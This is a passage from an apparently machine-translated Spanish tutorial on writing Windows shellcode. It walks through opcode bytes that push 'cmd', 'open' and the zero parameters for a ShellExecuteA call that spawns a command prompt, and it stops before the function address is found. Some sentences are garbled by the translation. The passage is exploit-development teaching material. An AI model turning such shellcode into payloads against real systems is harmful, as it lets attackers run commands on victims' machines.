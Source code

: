     ```
    mov ebx, esp
    ```

#### Actualicemos nuestro código <a href="#lets-update-our-code" id="lets-update-our-code"></a>

```
   → "\x68\x63\x6d\x64\x00"   // PUSH "cmd" and terminates the string with \x00 = now its 4 bytes
   → "\x8B\xDC"                       // MOV EBX, ESP
                                               // puts the pointer to the text "cmd" into ebx
   →  "\x6A\x00"                      // PUSH 0: string terminator For 'open'
   → "\x68\x6f\x70\x65\x6e"   // PUSH "open"
   → "\x8B\xCC"                      // MOV ECX, ESP
                                              // puts the pointer to the text 'open' into ecx
```

* Mirando el código ensamblado, tenemos que pasar +4 parámetros, 0003 orden inverso > 300 0
*   Hay varias formas de ejecutar una instrucción 'push 3':

    ```
      just push 3
      move the value to a register, then push the register itself
      zero out the register, then increment the register 3 times
      etc
    ```

```
"\x6A\x03" // PUSH 3
```

*   Ahora los ceros

    ```
    "\x33\xc0"  // xor eax, eax => zero out the eax register
    "\x50"        // push eax => pushes 0
    "\x50"        // push eax => pushes 0
    ```

#### Cuerdas de empuje <a href="#push-strings" id="push-strings"></a>

> Ahora tenemos que empujar la cadena 'open' 'cmd' Como sabemos, no podemos empujar las cadenas directamente, primero debemos asignar la cadena a un registro y luego empujar el registro. Ya lo hicimos anteriormente con EBX (CMD) y ECX (Open).
>
> ```
> "\x53" // push ebx
> "\x51" // push ecx
> ```

*   Necesitamos empujar el último cero, el valor de eax sigue siendo 0, podemos empujar el eax:

    ```
    "\x50" // push eax => pushes 0
    ```
*   casi listo, tenemos que buscar la dirección de la función ShellExecuteA. Para encontrar la dirección usaremos Arwin:
